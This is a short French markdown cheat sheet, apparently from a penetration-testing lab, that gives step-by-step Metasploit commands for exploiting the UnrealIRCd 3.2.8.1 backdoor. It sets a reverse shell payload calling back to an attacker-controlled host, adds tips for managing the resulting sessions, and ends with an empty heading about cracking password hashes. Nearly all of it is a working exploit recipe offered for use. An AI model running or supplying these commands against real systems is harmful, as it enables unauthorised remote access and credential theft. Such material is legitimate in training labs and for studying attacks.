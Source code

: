## Exploitation d'UnrealIRCd avec Metasploit


### Commandes à exécuter sur la console Kali

```bash
msfconsole
search ircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 10.6.0.7
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST 10.6.0.9
run
```
### Astuces:
Mettre en background : Ctrl + Z <br>
Reprendre sessions <br>
session + (numero id)


### Déchiffrer le hash des mots de passe

